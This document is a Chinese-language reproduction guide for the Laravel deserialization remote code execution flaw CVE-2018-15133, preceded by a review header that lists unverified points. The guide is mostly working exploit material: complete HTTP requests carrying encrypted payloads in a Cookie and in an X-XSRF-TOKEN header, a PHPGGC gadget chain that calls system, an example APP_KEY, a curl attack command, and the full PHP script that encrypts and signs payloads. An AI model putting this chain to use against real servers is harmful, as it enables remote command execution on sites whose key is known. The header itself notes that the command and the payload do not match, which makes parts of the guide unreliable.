

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：5.5.x&lt;=5.5.40、5.6.x&lt;=5.6.29；必须已知有效APP_KEY及匹配cipher/gadget依赖

代码与实验材料：Cookie和X-XSRF-TOKEN两通道、完整kozmic加密/HMAC生成脚本；明确每站APP_KEY不同示例不可直接复用

来源证据范围：kozmic原repo在脚本署名，PHPGGC使用ianxtianxt fork；缺官方公告

- **证据待核（1）**：生成步骤与payload说明不对应；依据：phpggc 网站/路径并非具体gadget命令，缺base64输出选项；例称system id但所给序列化内容含uname -h，需核示例来源。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **凭据与会话边界（2）**：版本/依赖与路径条件不完整；依据：仅说PHPGGC CLI&gt;=5.6，但下方加密脚本使用random_bytes需相应PHP运行时；Cookie解密中间件/CSRF处理及允许gadget不是全站通用。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **凭据与会话边界（3）**：格式污染与实验条件；依据：X-XSRF-TOKEN值末尾带Cookie式分号、HTML注释围栏残留、图片尾重复；历史APP_KEY及固定目标应标实验值。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2018-15133）Laravel 反序列化远程命令执行漏洞
==================================================

一、漏洞简介
------------

利用前需要知道app\_key，才可以进行利用。

二、漏洞影响
------------

Laravel framework 5.5.x\<=5.5.40

Laravel framework 5.6.x\<=5.6.29

三、复现过程
------------

漏洞分别可以在两个地方触发一个是直接添加在 **cookie** 字段，例如：
**Cookie: ATTACK=payload** ；另一处是在 **HTTP Header** 处添加
**X-XSRF-TOKEN** 字段，例如： **X-XSRF-TOKEN: payload** 。

#### 通过Cookie触发RCE

通过 **Cookie** 触发 **RCE** 的 **EXP** 如下（这里payload中执行的命令是
`curl 127.0.0.1:8888` ）：

    POST / HTTP/1.1
    Host: www.0-sec.org:8000
    Cookie: XDEBUG_SESSION=PHPSTORM; ATTACK=eyJpdiI6ImRhSTdpRkhWTFowVHNtNDMyZW5wWlE9PSIsInZhbHVlIjoiRHRRRXpRNUhkeG8rQ0s0a21qRmpzUHNkZ0lBaFpsVjlvYk1uZmtwOVpRVFZsdmNKSUhMQnJ0UlBWeHhrbElZb0ZaRnRmMjFlbTNSNXRXZGxCeEF2clNvbk5HT2FDZEEwSGVKU2VuUkFSeVhXTUEwVzFUYlRlc2RsWk1scEg3eWRUKzljRHBWQmEzMERRR0gydG4zYURzWEFcL2djUmFDVGJ5M2NMREVvMDhmeEE0dm5FTVJcL3UwZHBsUjhxajBHbFVBaHVRTWRzN3QwNU9XdWdISWZPaklkXC80alpKQjZEMlJTQjdVXC8wZ3BoNXVXWVFRK1NUSVM5OVhkSXRuSXpHZWRMcUJnR0RwVjlLeDNPUHMyNFpMbWJRPT0iLCJtYWMiOiIxM2M3YThiNmI4MWNkZmI1YjNhMGEzZDRjMDdkYTJiY2MyNzZhOWZkYzUwM2NiOTg1MGRiMTk0ZGU1MjhhOWE1In0=;
    Content-Type: application/x-www-form-urlencoded
    Connection: close
    Content-Length: 0

#### 通过HTTP Header触发RCE

通过 **HTTP Header** 触发 **RCE** 的 **EXP**
如下（这里payload中执行的命令是 `curl 127.0.0.1:8888` ）：

    POST / HTTP/1.1
    Host: www.0-sec.org:8000
    Cookie: XDEBUG_SESSION=PHPSTORM;
    X-XSRF-TOKEN: eyJpdiI6ImRhSTdpRkhWTFowVHNtNDMyZW5wWlE9PSIsInZhbHVlIjoiRHRRRXpRNUhkeG8rQ0s0a21qRmpzUHNkZ0lBaFpsVjlvYk1uZmtwOVpRVFZsdmNKSUhMQnJ0UlBWeHhrbElZb0ZaRnRmMjFlbTNSNXRXZGxCeEF2clNvbk5HT2FDZEEwSGVKU2VuUkFSeVhXTUEwVzFUYlRlc2RsWk1scEg3eWRUKzljRHBWQmEzMERRR0gydG4zYURzWEFcL2djUmFDVGJ5M2NMREVvMDhmeEE0dm5FTVJcL3UwZHBsUjhxajBHbFVBaHVRTWRzN3QwNU9XdWdISWZPaklkXC80alpKQjZEMlJTQjdVXC8wZ3BoNXVXWVFRK1NUSVM5OVhkSXRuSXpHZWRMcUJnR0RwVjlLeDNPUHMyNFpMbWJRPT0iLCJtYWMiOiIxM2M3YThiNmI4MWNkZmI1YjNhMGEzZDRjMDdkYTJiY2MyNzZhOWZkYzUwM2NiOTg1MGRiMTk0ZGU1MjhhOWE1In0=;
    Content-Type: application/x-www-form-urlencoded
    Connection: close
    Content-Length: 0

> 每个网站的app\_key不同，生成的代码不同，可别傻傻的直接用上面的代码了。

-   使用PHPGGC生成反序列化代码

https://github.com/ianxtianxt/phpggc

> 运行phpggc 的条件是php cli的版本\>=5.6

    ./phpggc 网站/路径 system id

    Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MTU6IkZha2VyXEdlbmVyYXRvciI6MTp7czoxMzoiACoAZm9ybWF0dGVycyI7YToxOntzOjg6ImRpc3BhdGNoIjtzOjY6InN5c3RlbSI7fX1zOjg6IgAqAGV2ZW50IjtzOjg6InVuYW1lIC1hIjt9

-   使用第脚本生成最终payload

```{=html}
<!-- -->
```
    ./cve-2018-15133.php app_key phpggc加密的内容

    例子：

    ./cve-2018-15133.php 9UZUmEfHhV7WXXYewtNRtCxAYdQt44IAgJUKXk2ehRk= Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MTU6IkZha2VyXEdlbmVyYXRvciI6MTp7czoxMzoiACoAZm9ybWF0dGVycyI7YToxOntzOjg6ImRpc3BhdGNoIjtzOjY6InN5c3RlbSI7fX1zOjg6IgAqAGV2ZW50IjtzOjg6InVuYW1lIC1hIjt9

    'PoC for Unserialize vulnerability in Laravel <= 5.6.29 (CVE-2018-15133) by @kozmic

    HTTP header for POST request: 
    X-XSRF-TOKEN: eyJpdiI6Imp3c1BUejE5aGFFUVM4a0NcLzIyODBnPT0iLCJ2YWx1ZSI6InZrTEdOY2o1NlVJdlltWFl3OFBxTEY1a1pCZWlaSDRSdXM1STNSa21sSE5Cb3hFd09cL2JUdU0wWHhjK0dUU0dYQzlTd3ZYSm50NTc4NW90UnNrZW5mMHc2RHdcLzZia01cL29wVUhjQml5cCtmZ1VcL2lwbnVySG52MHEwWXdZMVFVSXhWYjFEQlwveTZPQ3JORnRYdVQyeVFnODM1UGVCSVFcL3B6RGs2VDczOTZEbkFKdFwvc3lpZXBtcUo4VllLNU4zS0pMV3ZBUlNXZDRHRmNnOG1vOFZUWDVicE5uV0FcL1NSXC9HRjh2XC9YR2pLUDlEdlEwaytWRHl5TFhvb3RXM0Y4ejNXIiwibWFjIjoiOTMwMTNkZDYwYzNjYmQ1YTg4ZjRmNjM2NmZhMzBjNzA5NTgzYmI0ZWM3Y2MzOGM4YmExYjM2ZTVkOTIzZDJjYyJ9

Laravel反序列化远程命令执行漏洞/media/rId26.png)

    curl www.0-sec.org:8000 -X POST -H 'X-XSRF-TOKEN: eyJpdiI6Imp3c1BUejE5aGFFUVM4a0NcLzIyODBnPT0iLCJ2YWx1ZSI6InZrTEdOY2o1NlVJdlltWFl3OFBxTEY1a1pCZWlaSDRSdXM1STNSa21sSE5Cb3hFd09cL2JUdU0wWHhjK0dUU0dYQzlTd3ZYSm50NTc4NW90UnNrZW5mMHc2RHdcLzZia01cL29wVUhjQml5cCtmZ1VcL2lwbnVySG52MHEwWXdZMVFVSXhWYjFEQlwveTZPQ3JORnRYdVQyeVFnODM1UGVCSVFcL3B6RGs2VDczOTZEbkFKdFwvc3lpZXBtcUo4VllLNU4zS0pMV3ZBUlNXZDRHRmNnOG1vOFZUWDVicE5uV0FcL1NSXC9HRjh2XC9YR2pLUDlEdlEwaytWRHl5TFhvb3RXM0Y4ejNXIiwibWFjIjoiOTMwMTNkZDYwYzNjYmQ1YTg4ZjRmNjM2NmZhMzBjNzA5NTgzYmI0ZWM3Y2MzOGM4YmExYjM2ZTVkOTIzZDJjYyJ9'| head -n 2

ps：也可以使用burp

### poc

> cve-2018-15133.php

      
    #!/usr/bin/env php
    <?php
    /**
     * 
     * [CVE-2018-15133] Laravel Framework <= 5.6.29 / <= 5.5.40 / ~ https://github.com/kozmic/laravel-poc-CVE-2018-15133/
     *
     * Author:
     * - Ståle Pettersen ~ https://github.com/kozmic ~ https://twitter.com/kozmic
     */

    echo "PoC for Unserialize vulnerability in Laravel <= 5.6.29 (CVE-2018-15133) by @kozmic\n\n";
    if ($argc < 3 )
    {
        echo "Usage: " . $argv[0] . " <base64encoded_APP_KEY> <base64encoded-payload>" . PHP_EOL;
        exit();
    }
    $key = $argv[1];
    $value = $argv[2];

    $cipher = 'AES-256-CBC'; // or 'AES-128-CBC'

    $iv = random_bytes(openssl_cipher_iv_length($cipher)); // instead of rolling a dice ;)

    $value = \openssl_encrypt(
        base64_decode($value), $cipher, base64_decode($key), 0, $iv
    );

    if ($value === false) {
        exit("Could not encrypt the data.");
    }

    $iv = base64_encode($iv);
    $mac = hash_hmac('sha256', $iv.$value, base64_decode($key));

    $json = json_encode(compact('iv', 'value', 'mac'));

    if (json_last_error() !== JSON_ERROR_NONE) {
        echo "Could not json encode data." . PHP_EOL;
        exit();
    }

    //$encodedPayload = urlencode(base64_encode($json));
    $encodedPayload = base64_encode($json);
    echo "HTTP header for POST request: \nX-XSRF-TOKEN: " . $encodedPayload . PHP_EOL;
